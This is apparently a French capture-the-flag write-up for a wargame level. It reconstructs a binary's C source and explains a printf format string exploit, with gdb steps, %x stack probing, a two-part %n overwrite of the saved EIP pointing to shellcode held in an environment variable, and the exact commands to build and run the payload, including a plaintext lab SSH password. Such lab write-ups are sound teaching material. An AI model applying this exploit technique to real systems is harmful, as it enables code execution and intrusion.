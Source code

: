 # Level 05

Lorsqu'on exécute le binaire, un input est attendu sur l'entrée standard. Il est ensuite réaffiché sur la sortie standard. Si des majuscules sont entrées, elles sont mises en minuscule.

On peut réécrire un code source en C à partir du code asm du binaire :

```c
int main(int argc, const char **argv)
{
	char buffer[100]; // esp+0x28
	int i;			  // esp+0x8c

	i = 0;
	fgets(buffer, 100, stdin);

	int i = 0;
	while (i < strlen(buffer)) // not really a call to strlen function
	{
		if (buffer[i] >= 'A' && buffer[i] <= 'Z')
			buffer[i] = buffer[i] - 'A' + 'a'; // buffer[i] ^ 0x20
		i++;
	}
	printf(buffer);
	exit(0);
}
```

On voit rapidement qu'on peut utiliser une **format string attack** puique la fonction **printf** est appelée avec comme 1er argument le buffer dans lequel on écrit.

Grâce au specifier `%n` on va pouvoir écrire dans la mémoire. On peut donc écraser l'**eip sauvegardé** de la fonction **printf** pour pouvoir jump à un endroit où on aura insérer un shellcode.

On ne peut pas vraiment insérer notre shellcode dans le buffer puisque, tous les octets compris entre 'A' et 'Z' seront modifiés. Cependant, on peut introduire notre shellcode dans une variable d'environnement.

Notre but est donc d'écraser l'**eip sauvegardé** de la fonction **printf** par l'adresse de la variable d'environnement qui contient notre shellcode.

Il nous faut trouver ces deux adresses. On commence par introduire notre shellcode dans la variable d'environnemment `SCRIPT` :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
```

Ensuite dans gdb on place un breakpoint au niveau de la fonction _printf_, puis on rentre dans la fonction pour récupérer l'**eip sauvegardé** :

```gdb
b *0x8048507
r
*on écrit ce qu'on veut pour l'entrée standard*
si
i f
```

Avec la commande `i f` (info frame), on peut lire sur la dernière ligne la valeur de l'adresse.

Pour récupérer l'adresse de notre variable d'environnement `SCRIPT` on peut faire comme-ci dessous avec gdb peda :

```gdb
b main
r
find "SCRIPT"
```

Maintenant que nous avons nos deux adresses il faut construire notre _format string_.

En utilisant cette commande :

```bash
$ echo "aaaaaaaaaaaaaaaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level05
aaaaaaaaaaaaaaaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffd4e4 f7fdb000 61616161 61616161 61616161 61616161 78252061
```

On se rend compte que notre début de string est écrit dans la stack qu'à partir du dixième argument. On peut donc utiliser la format string suivante : `ADDR %WIDTHx %10$n`, avec _ADDR_ qui correspond à l'adresse où l'on veut écrire donc l'**eip sauvegardé** et _WIDTH_ l'adresse (en décimal) où se situe notre shellcode.

Cependant l'adresse où se sitre notre shellcode, étant assez grande, la _width_ est trop grande et pas prise en compte. Même en ayant 4 arguments de valeur _width_ divisé par 4, cela ne marche pas.

Pour palier à ce problème, on va écrire les 2 octets les plus bas de notre adresse à l'**eip sauvegardé** et les 2 octets les plus haut à l'**eip sauvegardé + 2**. On obtient donc : `ADDR ADDR+2 %WIDTH1x %10$n %WIDTH2x %11$n`. Voir Ressources/generator.cpp.

## Commandes

Depuis l'hôte :

```bash
make && ./generator shellcodes/cat_pwd.s  && sshpass -p '3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN' scp -P 4242 -r args level05@localhost:/tmp/
```

Sur la vm :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
./level05 < /tmp/args/arg
```

## Sources

- https://resources.infosecinstitute.com/topic/exploiting-format-strings-getting-the-shell/
